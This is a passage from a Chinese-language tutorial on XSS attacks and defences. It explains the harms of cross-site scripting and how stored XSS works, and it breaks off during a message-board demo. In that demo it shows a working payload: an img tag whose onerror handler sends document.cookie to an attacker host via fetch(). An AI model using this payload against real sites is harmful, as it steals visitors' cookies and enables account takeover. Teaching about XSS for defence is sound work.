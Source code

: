 ```yaml
---
title: "XSS 攻击和防御"
date: 
categories: web安全
tags: 
- XSS
---
```


### 1. XSS 简介

xss 全称(Cross Site Scripting)跨站脚本攻击，为了不和层叠样式表(Cascading Style Sheet, CSS) 缩写混淆，因此写作 XSS。属于一种脚本注入攻击，也就是攻击者把恶意脚本、html注入网站，当前其他用户访问的时候，这些恶意脚本、html 就在注入的网站的上下文中运行，从而对访问者造成攻击。



### 2. XSS 攻击危害

* 盗取用户 Cookie：有一天你发现仅剩 4 块钱（一个桶面）余额的银行卡，被转走了3.5 块到一位陌生用户，痛哭流涕的想着自己的晚餐（桶面）的情况下拨通了客服电话，接电话的还是个男的，顿时火冒三丈：谁转走了我的桶面，哦不，3.5 块? 客服查了下转账记录说：先生，您于某时某分某地登录银行网站转了 3.5 块给某某。此处省略1000字…….，很可能就是 Cookie 被盗走了，利用你在网站的权限把钱转走，还有 5 毛买个糖瓜吧。
* 导航到恶意网站：点击某个连接，进去的却是另外一个恶俗网站。
* 记录用户行为：攻击者可以通过使用 addEventListener 方法注册监听键盘事件的回调函数，并把所有用户行为发送到服务器，这些敲击行为可能记录者用户的敏感信息，比如密码和信用卡信息。
* 插入广告：是否有过这样的经历，当你通过某个连接进入某个网站的时候发现一顿不堪入目的广告（前提的是你没开广告拦截器）
* 钓鱼网站：这个词是否经常在某某新闻 APP 上看到？攻击者修改 DOM 插入假的登录框，活着把表单的action 属性指向他自己的服务器，然后欺骗用户提交用户的铭感信息。

### 3.XSS 攻击方式

既然 XSS 可以造成这么大危害，当然应该建立一些防范措施。但是，不急，在聊防范方式之前，我们先来分析 XSS 是怎么实现上述攻击的？有哪些攻击方式？如何联合其他攻击方式一起使用？

XSS 共分为三种攻击方式，从易用上，存储型 XSS > DOM 型 XSS > 反射型 XSS。

###### 3.1 存储型 XSS

我们从简单的开始，存储型 XSS 就是存入了数据库，在取出来，导致 XSS。比较典型的地方是：消息论坛，评论区，留言板 XSS。攻击者构造好攻击代码，提交到评论区，当其他用户进入这个页面的时候，浏览器从服务器拉取数据，并做正常的 html 和 js 解析执行，进而触发 XSS 攻击。

```
户访问页面 > 浏览器获取html|js（包括攻击代码）解析执行 > 完成攻击
```

那么攻击者是如何发现 XSS 漏洞，有是如何构造攻击代码提交到评论区的呢？这是一个比较大问题，这里分析个简单的demo，要看整个攻击的分析过程请转 [刘志龙大神-从零开始学 web 安全](http://imweb.io/topic/56b876a65c49f9d377ed8ef6)

原本的留言版如下：

![图片](https://ws2.sinaimg.cn/large/006tKfTcgy1fnqsur5ioqj30z608wac1.jpg)

为了简单点，上图的 input 没有做任何过滤与转码，我们直接提交下面的代码（这其实就是一种常见的 XSS payload。具体请看下文分析）：

```
hi, 你的 cookie 要被盗了哟<img src=1 onerror="fetch(`http://www.xsshack.com/?cookie=${document.cookie}`)" />
```

可以发现已经将攻击代码注入到留言区了：
